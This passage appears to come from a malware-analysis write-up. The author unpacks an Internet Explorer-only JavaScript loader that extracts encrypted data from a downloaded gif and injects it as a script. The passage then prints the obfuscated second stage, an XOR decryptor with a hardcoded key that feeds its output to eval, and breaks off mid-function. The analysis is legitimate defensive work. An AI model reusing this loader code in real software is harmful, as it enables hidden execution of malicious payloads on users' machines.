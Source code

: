 The file was bigger than that, but rest of file wasn't interesting. And I removed licence checking (with function 'licenseRequest'), because it wasn't letting me through. By the way, this code could work only under IE (because of ActiveXObject use).

Either way we can see that finally `<script>` element is created, and some decrypted data is put into it (gif is downloaded from fixed path, and than data is extracted from it).
I tried to decrypt that gif "manually" with python at first, but quickly I decided to do something simpler and I just replaced `sta.innerHTML = data` to `console.log(data)`.
Thanks to this, I reached second stage.

It looked like this:

```javascript
function getA(key) {
	return "3789d132";
}
function getB(key) {
	return "111780a7";
}
function getC(key) {
	return "fbff29";
}
function getD(key) {
	return "b2914faca2";
}

function main(func, idToProcess) {
    func(idToProcess)
}
var LvPmn, BisnmljH, window, JEUMZ;

gWRqmBVp = 'd';

var realMain = 
	(function(idToProcess) {
        TOu8g = kode;
        UA = 'asdfasdfasdf';
        if ((/(MSIE\ [0-7]\.\d+)/).test(UA)) {
            TOu8g = TOu8g.slice(0, -1);
        }
        TOu8g = TOu8g['replace'](/\s/g, '');
        plZla = kfSH(TOu8g, LvPmn);

        delete TOu8g;
        TOu8g = "";
        eval(plZla);
    });
LvPmn = 'oXUX5XqXRXoXGXfX';

function kfSH(YP, sr4ze) {
	var YLvEoLp = "";
	for (var i = 0; i < YP.length / 16; i++) {
		var HQDBqAdIqAP = RZTN(YP.substr((i*16), (i+1)*16), sr4ze);
		YLvEoLp += uyGi(parseInt(HQDBqAdIqAP.substr(8,8),16)) + uyGi(parseInt(HQDBqAdIqAP.substr(0,8),16));

	}
    return unescape(YLvEoLp);
}

function RZTN(SKOx, GHk7) {
	ret = "";
	for (var i = 0; i < SKOx.length; i+=2) {
		ret += (parseInt(SKOx.charAt(i) + SKOx.charAt(i+1), 16) ^ GHk7.charCodeAt(i)).toString(16);
	}
```